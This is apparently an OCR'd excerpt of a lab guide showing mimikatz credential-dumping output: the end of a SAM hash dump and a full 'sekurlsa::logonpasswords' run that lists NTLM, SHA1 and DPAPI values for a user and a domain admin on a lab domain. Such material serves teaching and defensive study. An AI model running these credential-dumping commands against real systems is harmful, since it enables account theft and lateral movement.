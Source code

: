 ```console
NTLM : e19ccf75ee54e06b06a5907af13cef42

RID  : 000001f8 (504)
User : WDAGUtilityAccount
LM   :
NTLM : 5a2b1b78290d381def497905d467fcff
```

## 1.3. Successful `sekurlsa::logonpasswords` example

```console
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 7831562 (00000000:0077800a)
Session           : Interactive from 0
User Name         : mike
Domain            : LAB
Logon Server      : DC
Logon Time        : 4/10/2022 9:13:04 PM
SID               : S-1-5-21-1470288461-3401294743-676794760-1105
        msv :
         [00000003] Primary
         * Username : mike
         * Domain   : LAB
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
         * DPAPI    : 0c6f0ff405f11531e7cd38a3f89ad32f
        tspkg :
        wdigest :
         * Username : mike
         * Domain   : LAB
         * Password : (null)
        kerberos :
         * Username : mike
         * Domain   : LAB.VX
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 3508055 (00000000:00358757)
Session           : Interactive from 1
User Name         : domainadmin
Domain            : LAB
Logon Server      : DC
Logon Time        : 4/10/2022 8:48:56 PM
SID               : S-1-5-21-1470288461-3401294743-676794760-1104
        msv :
         [00000003] Primary
         * Username : domainadmin
         * Domain   : LAB
         * NTLM     : e19ccf75ee54e06b06a5907af13cef42
         * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
         * DPAPI    : 66880edfa688d3f7b7ab4a215cee53a7
        tspkg :
        wdigest :
         * Username : domainadmin
         * Domain   : LAB
         * Password : (null)
        kerberos :
         * Username : domainadmin
         * Domain   : LAB.VX
         * Password : (null)
```